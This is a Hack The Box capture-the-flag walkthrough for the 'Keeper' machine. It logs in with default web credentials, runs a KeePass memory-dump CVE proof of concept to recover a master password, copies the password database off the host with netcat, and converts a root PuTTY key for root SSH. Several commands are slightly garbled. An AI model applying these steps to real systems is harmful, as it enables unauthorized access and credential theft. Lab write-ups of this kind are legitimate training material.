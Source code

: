 # Unlocking the Secrets of Keeper: A Journey to Root Access

## Introduction

In the exhilarating realm of ethical hacking, each machine encountered on platforms like Hack The Box presents fresh challenges and captivating discoveries. Keeper, an enigmatic HTB machine, follows suit. This guide will lead you through a systematic journey to conquer Keeper, navigating from the initial foothold to securing the coveted root flag. So, equip your virtual backpack, don your ethical hacker hat, and let's plunge into the adventure!

## Step 1: Setting the Stage

The first step is to identify the machine's IP address. We'll use this address to create a handy host entry for easy access.


```bash
echo "ip tickets.keeper.htb" | sudo tee -a /etc/hosts
```

## Step 2: Reconnaissance with Nmap
Now that we're properly set up, it's time to scan for open ports. We'll start with a basic scan to identify ports 22 (SSH) and 80 (HTTP).

```bash
nmap -p 22,80 tickets.keeper.htb/ipaddressofmachine
```

## Step 3: Exploring the Web
Access the machine's IP address in your browser and observe the redirection to the login page. It's time to play detective and try some random credentials. Miraculously, we're in!

```
Username: root
Password: password
```

## Step 4: The Admin Panel
Navigate to the admin section and prepare to uncover a user's password.

## Step 5: SSH Connection
Connect via SSH using the provided credentials:

```bash

ssh lnorgaard@tickets.keeper.htb Password: Welcome2023!
```

## Step 6: User Flag
With SSH access in hand, locate the user flag:

```bash

ls cat user.txt
```

## Step 7: The CVE and Keepass
Discover a critical CVE and grab the exploit from the following link: CVE Link. Download it to your local machine.

## Step 8: Moving Files
To transfer files between your local machine and the HTB machine, you can use netcat. Run the following commands:

## On the HTB machine:

```bash
nc -nlvp 1234 > poc.py
```

## On your local machine:

```bash
nc [keeperip] 1234 < poc.py
```

Verify the file transfer with ls and cat poc.py.

## Step 9: Exploiting Keepass
Execute the exploit on the HTB machine:


```bash
python3 poc.py -d KeePassDumpFull.dmp
```

_Retrieve the password: rødgrød med fløde_

## Step 10: Using Keepass
Back on your local machine, install Keepass2 with:

```bash

apt install keepass2
```

## Step 11: Unveiling the Secrets
On the HTB machine, locate passcodes.kdbx. Transfer it to your local machine using netcat.

## On your local machine:

```bash
nc -nlvp 1234 > passcodes.kdbx
```
After a brief wait, __press Ctrl+C__.

## Step 12: Keepass Unlocked
Open Keepass2, select "Open File," and choose passcodes.kdbx. Enter the password you found (rødgrød med fløde). Inside, you'll discover user and root credentials.

## Step 13: Root Access
Access the root SSH key, copy it, and save it as root.ppk. Use Puttygen to convert the key:

```bash
puttygen root.ppk -O private-openssh -o id_rsa
```
Finally, SSH into Keeper with root privileges:

```bash
ssh root@tickets.keeper.htb -i id_rsa
```
Discover the root flag:

```bash
ls cat root.txt
```

# Conclusion:
Our experience in conquering the Keeper HTB machine was not only exciting but also educational. We trust that this guide has illuminated the path of ethical hacking, spanning from the initial reconnaissance phase to achieving root access. Always bear in mind that ethical hacking is a journey of learning, self-challenge, and continuous enhancement of your cybersecurity skills. Happy hacking!